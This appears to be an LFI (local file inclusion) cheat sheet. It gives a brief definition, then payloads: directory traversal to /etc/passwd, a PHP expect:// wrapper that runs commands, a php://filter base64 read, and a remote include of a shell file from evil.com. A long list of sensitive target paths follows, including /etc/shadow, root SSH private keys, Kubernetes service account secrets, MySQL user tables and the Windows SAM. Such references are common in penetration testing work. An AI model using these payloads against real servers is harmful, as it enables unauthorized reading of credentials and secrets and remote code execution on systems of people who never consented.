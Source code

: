 LFI
LFI stands for Local File Includes - it’s a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server.
Typically this is exploited by abusing dynamic file inclusion mechanisms that don’t sanitize user input.
Directory traversal

foo.php?file=../../../../../../../etc/passwd

PHP Wrapper php://file

/example1.php?page=expect://ls

PHP Wrapper php://filter

/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

PHP Wrapper php://filter

http://example.com/index.php?page=http://evil.com/shell.txt

Useful LFI files
Linux

/etc/passwd

/etc/shadow

/etc/issue

/etc/group

/etc/hostname

/etc/ssh/ssh_config

/etc/ssh/sshd_config

/root/.ssh/id_rsa

/root/.ssh/authorized_keys

/home/user/.ssh/authorized_keys

/home/user/.ssh/id_rsa

/proc/[0-9]*/fd/[0-9]*

/proc/mounts

/home/$USER/.bash_history

/home/$USER/.ssh/id_rsa

/var/run/secrets/kubernetes.io/serviceaccount

/var/lib/mlocate/mlocate.db

/var/lib/mlocate.db

Apache

/etc/apache2/apache2.conf

/usr/local/etc/apache2/httpd.conf

/etc/httpd/conf/httpd.conf

Red Hat/CentOS/Fedora Linux -> /var/log/httpd/access_log

Debian/Ubuntu -> /var/log/apache2/access.log

FreeBSD -> /var/log/httpd-access.log

/var/log/apache/access.log

/var/log/apache/error.log

/var/log/apache2/access.log

/var/log/apache/error.log

MySQL

/var/lib/mysql/mysql/user.frm

/var/lib/mysql/mysql/user.MYD

/var/lib/mysql/mysql/user.MYI

Windows

/boot.ini

/autoexec.bat

/windows/system32/drivers/etc/hosts

/windows/repair/SAM

/windows/panther/unattended.xml

/windows/panther/unattend/unattended.xml

/windows/system32/license.rtf

/windows/system32/eula.txt
